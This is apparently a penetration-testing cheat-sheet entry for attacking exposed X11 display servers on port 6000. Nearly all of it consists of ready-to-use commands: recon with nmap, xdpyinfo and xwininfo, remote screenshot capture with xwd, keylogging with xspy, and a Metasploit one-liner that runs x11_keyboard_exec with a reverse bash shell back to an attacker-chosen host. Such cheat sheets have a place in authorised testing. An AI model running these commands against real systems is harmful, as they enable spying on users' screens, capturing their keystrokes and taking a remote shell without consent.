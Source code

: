 # X11

% x11, 6000
#plateform/linux  #target/remote #protocol/x11 #port/6000

## x11 - check anonymous connection
#cat/ATTACK/CONNECT  
```
nmap -sV --script x11-access -p <port> <ip>
```

## x11 - verify connection
#cat/RECON  
```
xdpyinfo -display <ip>:<display>
```

## x11 - verify connection (2)
#cat/RECON 
```
xwininfo -root -tree -display <ip>:<display>
```

## X11 - screenshot
#cat/ATTACK/EXPLOIT 
```
xwd –root –screen –silent –display <ip>:<display> > screenshot.xwd; convert screenshot.xwd screenshot.png
```

## X11 - keylogging
#cat/ATTACK/EXPLOIT 
```
xspy <ip>
```

## X11 - remote desktop view
#cat/ATTACK/CONNECT 
```
xrdp <ip>:<display>
```

## X11 - msf reverse shell
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/unix/x11/x11_keyboard_exec; set RHOSTS <rhost>; set payload cmd/unix/reverse_bash; set lhost <lhost>; set lport <lport>; exploit"
```

= display: 0
